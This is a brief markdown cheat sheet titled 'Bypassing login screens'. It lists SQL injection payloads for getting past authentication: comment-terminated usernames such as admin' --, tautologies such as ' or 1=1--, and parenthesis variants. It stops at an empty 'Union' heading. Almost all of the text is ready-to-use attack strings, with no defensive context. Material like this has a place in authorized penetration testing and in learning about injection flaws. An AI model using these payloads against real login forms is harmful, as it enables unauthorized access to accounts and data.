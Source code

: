 # Bypassing login screens

## Usernames

Try known usernames

- `admin' --`
- `admin' #`
- `admin'/*`

## Commenting

Try to end the user input and make the statement true.
Use different endings according to the database used.

- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`

## Parentheses

Try different variations of paranetheses

- `') or '1'='1--`
- `') or ('1'='1--`


## Union